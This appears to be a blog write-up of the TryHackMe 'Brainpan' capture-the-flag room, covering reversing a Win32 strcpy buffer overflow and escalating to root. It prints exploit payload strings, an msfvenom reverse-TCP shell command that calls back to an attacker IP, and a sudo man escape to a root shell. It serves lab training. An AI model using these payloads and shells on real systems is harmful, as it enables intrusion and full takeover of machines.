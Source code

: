```yaml
---
title: TryHackMe - Win32 Remote Buffer Overflow Challenge - Brainpan
author: vrls
date: 2020-07-10
#categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [tryhackme, ctf, win32, buffer, overflow, brainpan]
image: /assets/img/posts/2020/07/036945e91901ed7a9140b3a4bce1d7a4.png
---
```


<!--  ![image](/assets/img/posts/2020/07/036945e91901ed7a9140b3a4bce1d7a4.png) -->

## Introduction

This *easy* challenge requires analyzing a PE32 executable file by reversing it and find a buffer overflow vulnerability in order to achieve RCE.
We are given an IP address, instead of an expected binary executable file. 


## Enumeration

Starting with a quick Nmap scan we discover two open ports: **9999** & **10000**  (web server). 


![image](/assets/img/posts/2020/07/d5cdcdfb48bd60cad7b7b8a04f8012f6.png)

By accessing *http://10.10.145.154:10000/* through web browser we are presented with a fancy image suggesting to practice safe programming. 

![image](/assets/img/posts/2020/07/c0e111c46203b772c02c620b4c0562bb.png)

While running sub-directory scanner it found the directory **/bin/** with *Directory Listing* enabled and containing an **.exe** file.

![image](/assets/img/posts/2020/07/a203e53f184013329cc3d9bcb619f747.png)

Also, connecting via Netcat to the other port **9999** displays the following terminal which is probably served by the file we just found on **/bin/** directory of web server. 

![image](/assets/img/posts/2020/07/23bd33112de752f1e307b3da66910cae.png)

Now the current plan to hack the machine is:

* Reverse engineer the executable
* Find a buffer overflow vulnerability
* Exploit the vulnerability
* Gain initial foothold on remote machine
* Try to escalate privilages


## Reversing

In summary, this simple application starts by initializing a socket Winsock to be able to establish TCP/IP connections via 9999 port and then receives the user input.

This input is stored in a buffer with an approximate capacity of *0x208* bytes (that is roughly 520 bytes) and then compares with string **shitstorm**, which is the correct password to be "granted access". 

![image](/assets/img/posts/2020/07/009c2da76ef4292c011381fd2fa10d8d.png)

Note that the function being used *strcpy()* does not specify the size of destination array thus it does not prevent overwriting other data outside the current buffer limit (buffer overflow).

To fix this issue, the current string copy function should be replaced with *str**n**cpy()* to specify the limit of characters to be read into the buffer. This function has a better security approach since it does ensure only first **n** bytes are copied, preventing overflow.

## Exploit

As usual, we start by sending a lot of bytes to crash the program and confirm the overflow. Sending a total of *1024 A's* will terminate the process and display the following exception. Note this was performed in a Windows virtual environment as we don't have control over the target machine, yet. 

![image](/assets/img/posts/2020/07/b03c5a9e4282cd9c3f2bd9328de697b5.png)

At this point, we can run *Immunity Debugger* to analyze program behavior during runtime by attaching to a running proces. It will be essential to be able to understand and write a basic exploit.

Instead of sending a sequence of *A's* we can generate a string pattern that contains unique substring sequences. This is particularly useful to locate specific elements and see how the input adjusts in stack.

The scripts **pattern_create.rb** and **pattern_offset.rb** are available within *Metasploit Framework* tools. 

![image](/assets/img/posts/2020/07/9c18a6232550428806aae2cba2c31e15.png)

If we provide this input to the running program while attached to *Immunity Debugger* it is possible to observe the actual state of registers and stack. 

![image](/assets/img/posts/2020/07/a2268eeb5e5989dd08fbfb23fdee954a.png)

The instruction pointer value was overwritten with **4Ar5**. By replacing the substring **4Ar5** with a valid instruction address, we are able to control EIP and decide which instruction will be executed next when the current procedure returns because we are overwriting the return address.

In a normal execution, the EIP should go back to the return address that was previously stored at the bottom of the current stack frame in order to let the program continue its normal execution.

We can also observe that stack pointer is pointing to overwritten content of the previous stack frame, beginning at **Ar6A** (eip+4). Its important to note that we can use this space to store shellcode and then set the EIP to that location.

Now the offset of both EIP and ESP may be calculated using **pattern_offset.rb** and providing both words. 

![image](/assets/img/posts/2020/07/d0f88386c85204de9145d27cc7670d01.png)


With the correct offset we can tweak our string to hold different values at different places. It should hold *524 A's* to fill the buffer plus the next 4 bytes will overwrite return address and the other next 4 bytes will be what stack pointer will be pointing to.

* **payload = 'A' * 524 + 'B' * 4**

It will cause the process to terminate due to *0x42424242* not being an address pointing to a valid instruction. 

![image](/assets/img/posts/2020/07/3832604f2e02d328436fe508f6a236e6.png)

At this point we are already able to build a solid payload. The structure should be similar to the following scheme: 

![image](/assets/img/posts/2020/07/3be1ed74de16b360e1a234a7b7705d1f.png)

Payload should contain *524 A's* followed by 4 bytes of a **jmp esp** instruction address, then a **NOP sled** and the shellcode.

The NOP sled will basically serve as a frame for where the ESP could be pointing to, to ensure that after the **jmp esp** instruction is executed, it will fall anywhere within the sled, and slide directly into the shellcode.

We can use *objdump* to find a jmp esp instruction address and use it to overwrite the return address. 

![image](/assets/img/posts/2020/07/8ffb153b1195da327ccf28dc91f955f0.png)


In this case, the payload should look like this:

* **payload = 'A' * 524 + '\xf3\x12\x17\x31' + '\x90' * 16 + '\<shellcode>'**

In other words:

* **payload = \<fill buf. w/ 524 bytes> + \<addr. of jmp esp instr.> + \<nop sled of 4 words> + \<shellcode>**

We should generate shellcode using msfvenom by executing the command:

```bash
$ msfvenom -p windows/shell/reverse_tcp RHOST=10.9.53.85 RPORT=1337 -a x86 -f python -b'\x00\x0a\x0d'.
```

The generated shellcode will connect-back to **10.9.53.85:1337** therefore we must setup a listener with **msfconsole**. Also it will be compatible with x86 architecture and outputted in Python syntax.

The shellcode must not contain bad chars: **\x00**, **\x0a** and **\x0d**. These bytes usually interfer when dealing with string manipulation functions (e.g. the \x00 denotes null-terminator for strings; if we include it then the program will consider it reached the end of string therefore leading to incomplete and damaged payload).

The final exploit looks like this:

![image](/assets/img/posts/2020/07/6e5b8a2775e2711a961680bf01e684af.png)

Setting up the listener on port **1337** to receive the incoming shell from target machine. *Bonus: HONK! :b*



![image](/assets/img/posts/2020/07/8e81af06eb8504f0a4eb387c75eb0304.png)


Finally! Executing the exploit pops a basic cmd shell. 

![image](/assets/img/posts/2020/07/ed484ee0de26059d2f10bec239a8cccf.png)



## Post-Exploitation

It is a surprise that the executable is being run through Wine enviornment, on a Linux machine. This shell is limited within Wine so we must *escape* and get a decent Bash. The most simple way is to navigate into **/bin/** and then execute **.\sh**.

Also, its usually a good idea to get one more different reverse shell. In case of failure, we have a backup and could easily start over without having to run the exploit again. The exploit could kill the service and we may lose further access to the machine.

This Python one-liner will send another shell back to our listening Netcat, at this time on port **1338**. 

![image](/assets/img/posts/2020/07/b981d5b8f841073a982272529b77a15b.png)

From now on it is quite trivial. First the dumb shell should be upgraded to an interactive one using:

```bash
python -c 'import pty; pty.spawn("/bin/sh");'
```

## Privilege Escalation

Then, having a look at current user puck **sudo privileges** there is one command that immediately stands out: **/home/anansi/bin/anansi_util**.

One of the available arguments is manual *\[command]*. It is obvious how to get root privileges by exploiting man, according to **GTFOBins**:

![image](/assets/img/posts/2020/07/f0fe0c615530e6f7a854573e7357a42e.png)

Running **sudo /home/anansi/bin/anansi_util manual man** followed by **!/bin/sh** spawns a **root shell**, thus bypassing local security restrictions! :) 

![image](/assets/img/posts/2020/07/c2932167fa3f0ef40f94e05abf8d83d7.png)

References:

* https://tryhackme.com/room/brainpan
* https://m0chan.github.io/2019/08/20/Simple-Win32-Buffer-Overflow-EIP-Overwrite.html
* https://netsec.ws/?p=337
* https://gtfobins.github.io/gtfobins/man/#shell
